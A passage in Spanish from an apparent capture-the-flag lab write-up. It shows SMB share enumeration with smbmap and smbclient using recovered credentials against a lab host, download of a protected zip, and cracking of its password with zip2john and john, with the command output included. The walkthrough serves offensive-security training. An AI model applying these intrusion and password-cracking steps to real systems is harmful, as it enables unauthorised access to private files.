 Por lo que vemos el usuario "sambauser" no tiene nada interesante, por lo que podria significar que es la clave para el smb, sabiendo eso simplemente vamos a nuestra máquina atacante y ejecutamos lo siguiente:

```css
smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2
```

```css
[+] IP: 172.19.0.2:445	Name: 172.19.0.2                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	read_only_share                                   	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (89db6cae5624 server (Samba, Ubuntu))
```

Como vemos está el directorio "read\_only\_share" al cual tenemos acceso de lectura, por lo que ahora usaremos `smbclient` para conectarnos y ver que lo que hay dentro:

```css
smbclient //172.19.0.2/read_only_share -U sambauser -W workgroup
```

cuando se nos pida la contraseña la ponemos y ya podemos ejecutar `ls`. Al hacerlo vemos lo siguiente:

```css

smb: \> ls
  .                                   D        0  Tue Aug 27 06:21:22 2024
  ..                                  D        0  Tue Aug 27 06:21:22 2024
  secret.zip                          N      242  Tue Aug 27 06:21:14 2024

		84999492 blocks of size 1024. 36921604 blocks available
smb: \> 
```

por lo que nos lo guardamos ejecutando `get secret.zip`. Una vez hecho eso nos salimos e intentamos descomprimir el archivo, pero al hacerlo nos pide una password, por lo que podemos acudir a `zip2john` para extraer el hash del zip y luego intentar crackear la contraseña con `john`. Para hacerlo simplemente ejecutamos en nuestra máquina local `zip2john secret.zip > hash`, esto nos guardará el hash en un archivo llamado "hash", luego simplemente ejecutamos `john --wordlist=<wordlist> hash` y listo.

```css
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwert            (secret.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-09-02 14:04) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
